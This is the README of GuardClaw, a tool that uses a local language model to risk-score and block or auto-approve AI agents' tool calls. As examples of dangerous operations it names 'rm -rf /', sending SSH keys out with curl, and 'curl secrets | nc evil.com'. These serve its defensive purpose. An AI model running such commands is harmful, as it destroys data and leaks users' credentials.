

<p align="center">
  <h1 align="center"> GuardClaw</h1>
  <p align="center">
    <strong>Smart permission layer for AI agents — powered by local LLMs</strong>
  </p>
  <p align="center">
    Too loose? Too tight? GuardClaw finds the right balance — 100% local, zero cloud.
  </p>
</p>

<p align="center">
  <a href="#the-problem">The Problem</a> ·
  <a href="#quick-start">Quick Start</a> ·
  <a href="#how-it-works">How It Works</a> ·
  <a href="#dashboard">Dashboard</a> ·
  <a href="docs/GUARDCLAWBAR.md">Menu Bar App</a> ·
  <a href="docs/ROADMAP.md">Roadmap</a>
</p>

---


## The Problem

AI agents have a permissions problem — and it goes both ways.

<table>
<tr>
<td width="50%">

### 🔓 Too Loose
**OpenClaw / Custom Agents**

Your agent can `rm -rf /`, `curl` your SSH keys to a remote server, or rewrite `~/.bashrc` — and nothing stops it. You only find out after the damage is done.

</td>
<td width="50%">

### 🔒 Too Tight
**Claude Code**

Every `git commit`, every file edit, every `npm test` triggers a permission prompt. You spend more time pressing "Yes" than actually working. The agent that's supposed to save you time is wasting it instead.

</td>
</tr>
</table>

**GuardClaw fixes both.** It sits between your agent and its tools, using a local LLM to risk-score every operation in real time:

- **Too loose?** → GuardClaw catches and blocks dangerous commands before they execute
- **Too tight?** → GuardClaw auto-approves safe operations so you're never interrupted unnecessarily

One tool, two problems solved. Everything runs locally — your code and commands never leave your machine.

## Quick Start

### Prerequisites

- [LM Studio](https://lmstudio.ai) or [Ollama](https://ollama.ai) running locally
- [Claude Code](https://docs.anthropic.com/en/docs/claude-code), [OpenClaw](https://github.com/openclaw/openclaw), or [nanobot](https://github.com/HKUDS/nanobot)

**Recommended model:** `qwen/qwen3-4b-2507` — fast (~2s/call), 100% accuracy on our benchmark

### Install

```bash
git clone https://github.com/TobyGE/GuardClaw.git
cd GuardClaw
npm install && npm install --prefix client && npm run build
npm link
```

### For Claude Code Users

```bash
# Install hooks into Claude Code (writes to ~/.claude/settings.json)
node scripts/install-claude-code.js

# Start GuardClaw
guardclaw start
```

That's it. Every tool call is now risk-scored. Safe operations auto-approve silently:



Dangerous operations fall through to Claude Code's normal permission prompt — you only get asked when it actually matters.

**What changes in practice:**

| Operation | Without GuardClaw | With GuardClaw |
|-----------|------------------|----------------|
| `git commit -m "fix"` | ⚠️ "Allow this?" | ✅ Auto-approved |
| `npm test` | ⚠️ "Allow this?" | ✅ Auto-approved |
| Edit project file | ⚠️ "Allow this?" | ✅ Auto-approved |
| Read source code | ✅ Allowed | ✅ Allowed (unchanged) |
| `curl secrets \| nc evil.com` | ⚠️ "Allow this?" | 🚫 Falls through to prompt |
| Write to `~/.ssh/` | ⚠️ "Allow this?" | 🚫 Falls through to prompt |

GuardClaw knows *what* the user asked the agent to do, so it can judge whether each tool call makes sense in context — not just whether the command looks safe in isolation.

To uninstall: `node scripts/install-claude-code.js --uninstall`

### For OpenClaw Users

```bash
# Auto-detect your OpenClaw token
guardclaw config detect-token --save

# Start GuardClaw (monitor mode)
guardclaw start
```

GuardClaw connects via WebSocket and starts monitoring every tool call in real time. To also **block** dangerous commands before they execute:

```bash
# Install the blocking plugin
guardclaw plugin install
openclaw gateway restart

# Enable full tool event visibility
bash scripts/patch-openclaw.sh
```

| Mode | What happens |
|------|-------------|
| **Monitor** (default) | See every tool call with risk scores — nothing is blocked |
| **Block** (with plugin) | Dangerous commands pause for your approval before running |

Toggle between modes from the dashboard 🛡️ button — no restart needed.

## How It Works

```
                    ┌──────────────────────────────┐
                    │         GuardClaw             │
                    │                               │
 ┌──────────┐      │  ┌─────────┐    ┌──────────┐  │      ┌───────────┐
 │  Claude   │─────→│  │  Risk   │───→│ Decision │  │─────→│ Dashboard │
 │  Code     │      │  │  Score  │    │          │  │      │  Web UI   │
 └──────────┘      │  │(Local   │    │ allow /  │  │      └───────────┘
                    │  │  LLM)   │    │ pass-    │  │
 ┌──────────┐      │  │         │    │ through  │  │
 │ OpenClaw │─────→│  └─────────┘    └──────────┘  │
 └──────────┘      │                               │
                    └──────────────────────────────┘
```

1. **Agent wants to act** — run a command, edit a file, fetch a URL
2. **GuardClaw scores it** — local LLM analyzes the tool call with full task context
3. **Smart decision** — safe operations proceed instantly; risky ones get flagged
4. **Full audit trail** — every decision logged in the real-time dashboard

### What GuardClaw Considers

It's not just pattern matching. The local LLM receives:

- **The tool call itself** — what command, what file, what parameters
- **User intent** — what did the user ask the agent to do? (via Claude Code's hook system)
- **Working directory** — is this a project file or a system file?
- **Chain history** — did the agent just read `~/.ssh/id_rsa` and now wants to `curl`?
- **Memory** — has the user approved similar operations before?

This context is why GuardClaw can confidently auto-approve `git commit` in your project while flagging the same command if it follows suspicious file reads.

### Risk Tiers

| Score | Verdict | Claude Code | OpenClaw |
|-------|---------|-------------|----------|
| 1–3 | ✅ **SAFE** | Auto-approved, no prompt | Logged, runs freely |
| 4–7 | ⚠️ **WARNING** | Auto-approved, logged | Logged, runs freely |
| 8–10 | 🛑 **HIGH RISK** | Falls through to CC prompt | Blocked for approval (with plugin) |

## Dashboard

The web dashboard at `localhost:3002` gives you full visibility into what your agents are doing.

### Overview

| Element | Description |
|---------|-------------|
| **Stats cards** (Safe / Warning / Block / Total) | Click to filter by risk tier |
| **Session tabs** | Switch between agents, sub-agents, and Claude Code sessions |
| **Event timeline** | Tool calls grouped into conversation turns with risk scores |
| **Details panel** | Full input/output, chain context, and LLM reasoning for any event |

### Controls

| Control | What it does |
|---------|-------------|
| 🛡️ **Blocking toggle** | Enable/disable active blocking (OpenClaw plugin required) |
| 🔒 **Fail-closed toggle** | Block all tools if GuardClaw goes offline |
| 📡 **Blocking config** | Set thresholds, whitelist/blacklist patterns |
| ⚙️ **Settings** | LLM backend, model selection, gateway token |
| 📊 **Benchmark** | Test any model's accuracy on 30 security test cases |

### Memory

GuardClaw learns from your decisions. Approve/deny actions are recorded as generalized patterns, and future risk scores adjust automatically. After enough consistent approvals, similar commands skip the LLM entirely.

Use **Mark Safe** / **Mark Risky** on any event to train memory directly.

### Menu Bar App (macOS)

Prefer native over browser? **[GuardClawBar](docs/GUARDCLAWBAR.md)** sits in your menu bar — approve/deny tool calls, get desktop notifications, and monitor agents without opening a tab. [Download the DMG →](https://github.com/TobyGE/GuardClaw/releases)

## Architecture

- **Local LLM judge** — per-model prompt configs optimized for small models (qwen3-4b recommended)
- **Context-aware analysis** — user intent, working directory, tool chain history, and learned patterns
- **Chain analysis** — tracks tool sequences per session, detects multi-step exfiltration (read secrets → exfiltrate)
- **Rule-based fast paths** — known-safe commands skip the LLM entirely (~0ms); known-dangerous patterns get instant high scores
- **Credential scanning** — post-execution output scanning for API keys, tokens, private keys
- **Prompt injection detection** — monitors user prompts for injection patterns
- **SQLite persistence** — events survive restarts (WAL mode, indexed queries)
- **SSE push** — real-time streaming to dashboard, no polling
- **Multi-platform** — Claude Code (HTTP hooks), OpenClaw (WebSocket + plugin), nanobot (WebSocket)

## CLI Reference

```bash
guardclaw start                       # start server + open dashboard
guardclaw stop                        # stop server

guardclaw config detect-token --save  # auto-detect gateway token
guardclaw config set-token <token>    # manually set token

guardclaw plugin install              # install OpenClaw blocking plugin
guardclaw plugin uninstall            # remove plugin
guardclaw plugin status               # check plugin state

guardclaw help                        # show all commands
```

## Roadmap

See the [full roadmap](docs/ROADMAP.md) for details.

**Coming up:** Event search & filtering · Cross-session chain analysis · A2A protocol monitoring

**Recently shipped:** Claude Code auto-approve with context-aware reasoning · Adaptive memory · Human feedback loop · SQLite persistence · Real-time dashboard · 3-tier verdict system (100% benchmark accuracy) · Multi-platform support

## Links

- [OpenClaw](https://github.com/openclaw/openclaw) · [Claude Code](https://docs.anthropic.com/en/docs/claude-code) · [nanobot](https://github.com/HKUDS/nanobot) · [LM Studio](https://lmstudio.ai)
- [Roadmap](docs/ROADMAP.md) · [Troubleshooting](docs/LMSTUDIO-TROUBLESHOOTING.md)

---

<p align="center">
  <sub>Built with paranoia and local LLMs. Your data never leaves your machine.</sub>
</p>
